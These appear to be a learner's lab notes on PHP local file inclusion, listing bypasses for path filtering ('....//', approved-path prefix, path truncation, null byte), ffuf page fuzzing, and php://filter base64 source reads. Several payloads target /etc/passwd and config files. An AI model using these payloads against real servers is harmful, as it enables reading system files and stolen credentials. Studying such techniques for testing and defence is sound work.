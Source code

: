 
## Remove strings
```php
$language = str_replace('../', '', $_GET['language']);
```
just replace `../` with `....//` because str_replace is not recursive 

can encode with burp encoder to encode as URL 

## Approved Paths
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
if so we just use something like `./languages/../../../etc/passwd`

## Appended Extension 
server as `.php` at the end of the file 

we can just add random characters in until it is max length of 4096 or 2048 char then it might work 

```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done

```

or we can try to do a null byte injection `/etc/passwd%00`

# PHP Filter 
fuzz available PHP pages with ffuf or gobuster
```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.58.50:34336/FUZZ.php
```

**Tip:** Unlike normal web application usage, we are not restricted to pages with HTTP response code 200, as we have local file inclusion access, so we should be scanning for all codes, including `301`, `302` and `403` pages, and we should be able to read their source code as well.

If its not displaying on the page because it has no html output but just source code: 
```url
php://filter/read=convert.base64-encode/resource=config
```
can try to encode it with base64

try to read yourself (`index.php`) 



